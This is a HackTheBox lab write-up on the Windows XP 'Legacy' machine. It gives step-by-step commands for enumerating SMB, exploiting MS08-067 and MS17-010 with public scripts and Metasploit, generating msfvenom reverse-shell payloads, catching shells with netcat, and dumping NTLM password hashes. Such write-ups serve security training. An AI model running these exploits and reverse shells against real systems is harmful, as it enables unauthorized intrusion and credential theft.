 ```yaml
---
title: Legacy Writeup
date: 2021-12-27
categories: [Writeup, HackTheBox]
tags: hackthebox, OSCP, WriteUp, Windows, windowsxp, eternalblue, MS08-067, MS17-010, TJNULLs List
image:
  src: ./Images/Legacy-infocard.png
  width: 697   # in pixels
  height: 517   # in pixels
  alt: image alternative text
---
```


In this writeup I have pwned Legacy from hackthebox in all possible ways using manual exploits and metasploit.

MS08-067, MS17-010

### Enumeration

#### rustscan
```
rustscan --accessible -a 10.129.178.214 -- -Pn -p-
```
![](Images/2021-12-29-13-18-11.png)
_rustscan results_

#### nmap
```
sudo nmap -Pn -A -O -p 139,445 10.129.178.214 | tee nmap.log
```
![](Images/2021-12-29-13-39-30.png)
_nmap results_

```
sudo nmap -Pn --script=smb-vuln* -p 139,445 10.129.178.214 | tee nmap-vulns.log
```
![](Images/2021-12-29-13-53-30.png)
_nmap vulnerablity scan results_

Target running 
- OS : Windows XP SP2 or Later.
- SMB Service with disabled message signing.

This can lead to exploitation using eternal blue exploit on outdated OS with vulnerable state of service.

nmap vulnerablity script scan gave confirmation target is vulnerable to 
- CVE-2008-4250 : Microsoft Windows system vulnerable to remote code execution (MS08-067)
- CVE-2017-0143 : Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)

#### smbclient

```
smbclient -NL 10.129.178.214
smbmap -H 10.129.178.214
```
**`smbmap`** and **`smbclient`** confirmed no shares are accessible.

---

### Exploitation

#### MS08-067

For exploiting the target using MS08-067 we can use the following exploit from github. [MS08-067](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)

```
wget "https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py"
```

This exploit have dependencies of python library `pycryptodomex / pycryptodome` which was previously known as `pycrypto`.

Installing `impacket` in python virtual environment will fulfill the minimum requirement to execute exploit.

```
virtualenv -p /usr/bin/python venv
source venv/bin/activate

git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip install .

# cd back to exploit location.
```
![](Images/2021-12-29-14-19-08.png)

Now we can test if exploit is usable using simple run.
```
python ms08-067.py
```
This will give usage example to run this exploit.
![](Images/2021-12-29-14-20-10.png)

This exploit also requires shellcode to get a reverse shell. 
We can generate shell code using following
```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```
![](Images/2021-12-29-14-22-21.png)

We have to copy this generated shellcode and put it in exploit at line 53.

We have to remove the existing shell code and put out shellcode in `shellcode()` function.

![](Images/2021-12-29-14-24-04.png)

Now we are ready to execute exploit script using the following command.

```
rlwrap nc -lvnp 1337 # setting up listener

python ms08-067.py 10.129.178.214 6 445
```

> Note : We are selecting 6 because target is running Windows XP SP3 which was found in nmap enumeration. In case of other language of XP or other varient of OS. Enumeration and hit n trial will be required.

**And finally we get a shell.**
![](Images/2021-12-29-14-30-47.png)

---

#### MS17-010

For exploiting the target using MS17-010 we can use the following exploit from github. [MS17-010](https://github.com/helviojunior/MS17-010)

```
git clone https://github.com/helviojunior/MS17-010.git
cd MS17-010/
python checker.py 10.129.178.214
```
The `checker.py` script also confirms this is vulnerable to MS17-010.

![](Images/2021-12-29-14-37-03.png)

This exploit requires malicious executable to get a reverse shell. We will create it using following commands in the same location of exploit.
```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > eternalblue.exe
```

And run the exploit after setting up ncat listener.

```
rlwrap nc -lvnp 1337

# python send_and_execute.py TARGET_IP eternalblue.exe
python send_and_execute.py 10.129.178.214 eternalblue.exe
```

**And finally we get a shell.**
![](Images/2021-12-29-14-44-43.png)

---

#### Metasploit | MS17-010

With below one liner we can exploit target with Metasploit MS17-010 module and get meterpreter shell.
```
msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 4444; set RHOSTS 10.129.178.214; run;"
```
![](Images/2021-12-29-15-04-07.png)


#### Metasploit | MS08-067

```
msfconsole -q -x "use exploit/windows/smb/ms08_067_netapi; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 5555; set RHOSTS 10.129.178.214; run;"
```
![](Images/2021-12-29-15-07-49.png)

---

### Post Exploitation
This system didn't had whoami to check the privileges.

#### nc TCP Reverse Shell 

Using SMB Server and executing we got to know we have highest privilege in system.

```
# in attacker machine
sudo smbserver.py a /usr/share/windows-resources/binaries/ 

# in target machine
\\10.10.17.81\a\whoami.exe
```

![](Images/2021-12-29-15-26-32.png)

#### Meterpreter

Using `getuid` we got current user. 
And using `hashdump` following hashes were collected.
```hash
Administrator:500:b47234f31e261b47587db580d0d5f393:b1e8bd81ee9a6679befb976c0b9b6827:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:0ca071c2a387b648559a926bfe39f8d7:332e3bd65dbe0af563383faff76c6dc5:::
john:1003:dc6e5a1d0d4929c2969213afe9351474:54ee9a60735ab539438797574a9487ad:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:f2b8398cafc7174be746a74a3a7a3823:::
```

![](Images/2021-12-29-15-33-30.png)

---

### Recommendation

SMB was enabled on outdated un-supported Winodws XP and SMB message signing was disabled. And running with privileges of Administrator.

> Update to latest supported version of Windows. 
> Advise not to run SMB service with disabled message signing as Administrator.

---

### Key Learning
In this pentest, with easiest enumeration we got to know target is vulnerable to eternal blue. And there are a lot of exploits available for this on github and other resources.

Going forward keeping a fork of working exploit with instructions to run it will help saving a a lot time in pentest period.

Outdated exploits like Eternal blue have dependency issues because of older version of python libraries. 

To save trouble it would be good idea to get libraries in virtual environment and run the exploit.

---